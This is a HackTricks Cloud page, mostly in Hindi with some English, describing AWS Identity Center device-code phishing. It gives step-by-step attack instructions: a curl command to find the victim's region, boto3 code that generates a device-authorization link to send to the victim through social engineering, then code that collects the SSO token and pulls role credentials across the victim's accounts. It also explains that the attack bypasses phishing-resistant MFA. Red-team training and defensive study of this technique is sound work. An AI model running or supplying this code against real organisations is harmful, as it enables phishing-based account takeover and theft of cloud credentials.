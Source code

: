 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS डिवाइस कोड फ़िशिंग

शुरुआत में [**इस ब्लॉग पोस्ट**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) में प्रस्तावित, यह संभव है कि AWS SSO का उपयोग करते हुए एक **लिंक** एक उपयोगकर्ता को भेजा जाए, यदि **उपयोगकर्ता स्वीकार करता है** तो हमलावर को **उपयोगकर्ता का अनुकरण करने के लिए एक टोकन प्राप्त होगा** और वह सभी भूमिकाओं तक पहुँच प्राप्त कर सकेगा जिन तक उपयोगकर्ता पहुँच सकता है **Identity Center** में।

इस हमले को करने के लिए आवश्यकताएँ हैं:

* पीड़ित को **Identity Center** का उपयोग करना होगा
* हमलावर को पीड़ित द्वारा उपयोग किए जाने वाले **सबडोमेन** का पता होना चाहिए `<victimsub>.awsapps.com/start`

सिर्फ पिछले जानकारी के साथ, **हमलावर उपयोगकर्ता को एक लिंक भेजने में सक्षम होगा** जो यदि **स्वीकृत** किया जाता है तो **हमलावर को AWS उपयोगकर्ता** खाते पर पहुँच प्रदान करेगा।

### हमला

1. **सबडोमेन खोजना**

हमलावर का पहला कदम यह पता लगाना है कि पीड़ित कंपनी अपने Identity Center में कौन सा सबडोमेन उपयोग कर रही है। यह **OSINT** या **अनुमान + BF** के माध्यम से किया जा सकता है क्योंकि अधिकांश कंपनियाँ यहाँ अपने नाम या उनके नाम का एक भिन्न रूप उपयोग कर रही होंगी।

इस जानकारी के साथ, यह संभव है कि उस क्षेत्र को प्राप्त किया जा सके जहाँ Identity Center को कॉन्फ़िगर किया गया था:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **शिकार के लिए लिंक उत्पन्न करें और इसे भेजें**

AWS SSO लॉगिन लिंक उत्पन्न करने के लिए निम्नलिखित कोड चलाएँ ताकि शिकारकर्ता प्रमाणीकरण कर सके।\
डेमो के लिए, इस कोड को एक पायथन कंसोल में चलाएँ और इसे बंद न करें क्योंकि बाद में आपको टोकन प्राप्त करने के लिए कुछ ऑब्जेक्ट्स की आवश्यकता होगी:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using your awesome social engineering skills!

3. **Wait until the victim accepts it**

If the victim was **already logged in AWS** he will just need to accept granting the permissions, if he wasn't, he will need to **login and then accept granting the permissions**.\
This is how the prompt looks nowadays:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Get SSO access token**

If the victim accepted the prompt, run this code to **generate a SSO token impersonating the user**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO एक्सेस टोकन **8 घंटे के लिए मान्य** है।

5. **उपयोगकर्ता का अनुकरण करें**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

यह जानकर मज़ा आता है कि पिछला हमला **काम करता है भले ही "unphisable MFA" (webAuth) का उपयोग किया जा रहा हो**। इसका कारण यह है कि पिछला **कार्यप्रवाह कभी भी उपयोग किए गए OAuth डोमेन को नहीं छोड़ता**। अन्य फ़िशिंग हमलों की तरह नहीं जहां उपयोगकर्ता को लॉगिन डोमेन को प्रतिस्थापित करने की आवश्यकता होती है, इस मामले में डिवाइस कोड कार्यप्रवाह इस तरह से तैयार किया गया है कि **कोड एक डिवाइस द्वारा जाना जाता है** और उपयोगकर्ता एक अलग मशीन में भी लॉगिन कर सकता है। यदि प्रॉम्प्ट को स्वीकार किया जाता है, तो डिवाइस, केवल **प्रारंभिक कोड को जानकर**, उपयोगकर्ता के लिए **क्रेडेंशियल्स पुनः प्राप्त करने में सक्षम होगा**।

इस बारे में अधिक जानकारी के लिए [**इस पोस्ट को देखें**](https://mjg59.dreamwidth.org/62175.html)।

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
